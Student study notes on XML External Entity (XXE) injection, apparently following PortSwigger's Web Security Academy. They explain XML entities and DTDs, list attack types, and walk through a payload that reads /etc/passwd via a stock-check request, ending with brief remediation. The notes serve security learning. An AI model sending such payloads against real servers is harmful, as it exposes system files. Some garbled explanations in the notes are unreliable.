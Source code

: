 #WAPT-notes  

---
### what we'll learn
> Lecture Name : [HINDI] XML External Entity (XXE) Injection | Types of Attacks | Prevention
> 1) About XXE (XML External Entity (XXE) Injection)
> 2) How do XXE vulnerabilities arise ?
> 3) XML entities
> 4) What are XML custom entities ?
> 5) What are XML external entities ?
> 6) Different types of XXE attacks
> 7) Exploiting XXE to retrieve files - Example 1st XXE attack
> 8) Remediation / how to prevent XXE vulnerabilities

### Overview
- what is XXE
- how XXE vulnerabilities arise
- XML entities
- XML custom entities & external entities
- Overview : how SSRF attacks can be done
- types of XXE attacks

### reference 
- in this module , we're following PortSwigger academy - web security
---

### 1. About XXE (XML External Entity (XXE) Injection)
- Reference : [What is XXE ? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/xxe)
- When data of an application & the data processed via XML (markup language) then a attacker interfere/intercept <br>
	that "processing" & from the web server , he/she could do such things like read the file , attack can be done like SSRF , <br>
	compromise the backend server , so this web security vulnerability aka XXE ✔️
- in it , we're saying `injection` cuz payload is inserted/used & via payload , everything done ✔️
- define : those applications which use XML to transferring data , so mostly XML has those features via which <br>
	we can define/declare custom entity , as a attacker , we can intercept in the middle of process of transferring data <br>
	& we can read the files , types of attacks of XXE like SSRF can be done ✔️

### 2. How do XXE vulnerabilities arise ?
- Q : When this XXE attack possible `imp ⭐`
	- cuz if specification (of the document of XML) is done properly then XXE attack can be possible 
	- or XML standard partials potentially support dangerous features via which these kind of payloads possible to execute 

### 3. XML entities
- Q : what is XML ?
    - XML stands for "extensible markup language"
	- it is a language designed for storing & transporting data & Like HTML, XML uses a tree-like structure of tags and data & unlike HTML , it doesn't have predefined tags 
- Q : what are XML entities ?
	- Define : XML entities are a way of representing an item of data within an XML document, instead of using the data itself
	- Eg of XML Entities : he entities `&lt;` and `&gt;` represent the characters `<` and `>`
	- These are metacharacters used to denote XML tags
- Q : What is document type definition (DTD) ?
	- The XML DTD contains declarations that can define the structure of an XML document

### 4. What are XML custom entities ? `v imp ⭐`
- XML allows us to define/declare our own custom entities
- Eg : of Format/syntax to define `<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>` - myentity <br>
  	means name of the entity u want to give & inside double quotes contain the value of that entity

### 5. What are XML external entities ? 
- XML external entities looks like `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`
- here `ext` - means it's communicating with your external resource i.e that URL
- Eg : `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`
- Q : how different attacks can be done in XXE ✔️
	- so we can define XML custom entities & external entities 
	- Example : <br><img src="../../notes-pics/03-Module/13_lecture/13_lecture-0-M3.jpg" alt="" width="500"/>
	- `"file:///etc/passwd"` - here we're able to retrieve the file <br>
		cuz we define the `file` which is stored on the server i.e `etc/passwd` ✔️
	- Overview : how SSRF attack can be done : here `"file:///etc/passwd"` , <br>
		the address (of the file path we'll give) of malicious server or where we can get the user control ✔️

### 6. Different types of XXE attacks 
1) File retrieve
2) SSRF attacks
3) exfiltrate data out-of-band
4) retrieving data via error messages

### 7. Exploiting XXE to retrieve files - Example 1st XXE attack
- Reference : [Exploiting XXE to retrieve files | portswigger](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)
- STEP 1 : For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
    ```xml
    <?xml version="1.0" encoding="UTF-8"?> 
    <stockCheck><productId>381</productId></stockCheck>
    ```
- STEP 2: so we changed the above XMl code into this 
	- The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability <br>
		to retrieve the `/etc/passwd` file by submitting the following XXE payload:
		```xml
		<?xml version="1.0" encoding="UTF-8"?> 
		<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> 
		<stockCheck><productId>&xxe;</productId></stockCheck>
		```
	- to exploit that above code , we took `DOCTYPE foo` then `!ENTITY xxe` entity we declared/define (what ENTITY xxe doing?) which is retrieving `"file:///etc/passwd"`
	- & then for "productId" we define `&xxe;` - here we put `&` to tell it's a entity
- STEP 3: the code of STEP 2 
	- This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and <br>
		uses the entity within the `productId` value. This causes the application's response to include the contents of the file:
    ```xml
    Invalid product ID: root:x:0:0:root:/root:/bin/bash 
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
    bin:x:2:2:bin:/bin:/usr/sbin/nologin ...
    ```
	- it'll retrieve the contents of the `/etc/password` & show the contents
	- so we got `invalid product ID` - cuz in `productId` , we define `&xxe;` & then we got the content of `/etc/password` i.e 
	```xml
	root:x:0:0:root:/root:/bin/bash daemon 
	1:1:daemon:/usr/sbin:/usr/sbin/nologin 
	bin:x:2:2:bin:/bin:/usr/sbin/nologin
	```

### 8. Remediation / how to prevent XXE vulnerabilities
- all XXE vulnerabilities arise/come cuz XML parsing library supports dangerous XML features
- easiest & most effective way to protect/prevent XXE attacks is to disable those features such as `XInclude` - disable it <br>
	but if u can't disable then overwrite the default behavior of it ✔️

